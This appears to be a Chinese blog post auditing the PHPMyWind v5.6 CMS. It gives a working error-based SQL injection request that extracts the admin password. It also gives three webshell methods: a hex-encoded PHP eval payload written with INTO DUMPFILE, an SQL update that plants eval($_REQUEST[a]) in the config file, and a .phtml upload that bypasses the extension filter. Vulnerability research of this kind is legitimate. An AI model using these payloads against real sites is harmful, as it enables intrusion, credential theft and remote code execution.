





看js代码看到自闭，于是找个cms审计一波找找自信，找了phpmywind v5.6
有几个鸡肋的后台sql注入，还有两种getshell的方法
phpmywind v5.6 后台sql注入
先从index.php看起，包含了/include/config.inc.php，审计一下，在第46行开始，很明显的变量覆盖
1 | foreach(array('_GET','_POST') as $_request) |
也就是说包含这个文件的代码都有可能产生变量覆盖漏洞，然后经过搜索+寻找
在admin/info_update.php中第55行
1 | $row = $dosql->GetOne("SELECT * FROM `#@__info` WHERE `classid`=$id AND `mainid`=-1"); |
在这之前并没有给$id赋值
跟进GetOne
1 | function GetOne($sql='',$acctype=MYSQLI_ASSOC) |
执行了Execute，跟进看一下
1 | function Execute($sql='',$id='me') |
经过了安全检测，跟进CheckSql，主要是要绕过这个CheckSql
1 | if($querytype == 'select') |
经过搜索，这个是80sec提供的过滤函数，搜一下绕过方式，可以报错注入，exp如下
1 | GET /admin/info_update.php?id=1 AND id in (char(@`'`), extractvalue(1, concat_ws(0x20, 0x5c,(select password from pmw_admin limit 0,1))),char(@`'`)) |

虽然这个洞纯鸡肋，但是利用思路还是可以学习一下的
phpmywind v5.6 后台getshell
网站后台直接可以执行sql语句，可以查看一下后台的过滤

禁用了into outfile，但是没有禁用into dumpfile
所以直接执行就可以了
1 | select 0x3c3f70687020406576616c28245f524551554553545b615d293b3f3e into dumpfile “/var/www/html/PHPMyWind_v5.6/shell.php” |
我本地的环境并没有给mysql写文件的权限，所以这个并没有利用成功
既然无法写文件，只好找从数据库中取数据的地方了，看看有没有可以利用的地方
admin/site_save.php 这个文件是将配置写入config.cache.php的，看关键代码
1 | function WriteConfig() |
从数据库取值然后写到配置文件中，虽然在向数据库中写数据的过程中进行了过滤，但是从数据库中取数据写入文件的过程中并没有对从数据库中取出的数据进行过滤，这样可以在后台直接更新数据库中的内容，将webshell写到配置文件中
先在后台执行如下sql语句
1 | update pmw_webconfig set varname = 'a=1;eval($_REQUEST[a]);//' where orderid=97 |
运行之后添加一个新的站点
这时在前台直接就可以执行命令了

其实还有一个利用点，但是需要开了phtml解析才能用，利用如下
先添加phtml后缀
这里后台还是有过滤的，在data/httpfile/upload.class.php中，第53行开始
1 | if(in_array($tempfile_ext, explode('|', 'php|pl|cgi|asp|aspx|jsp|php3|shtm|shtml'))) |
但是没有过滤phtml后缀，直接上传一个就可以getshell了，路径也给出来了

直接访问就好了
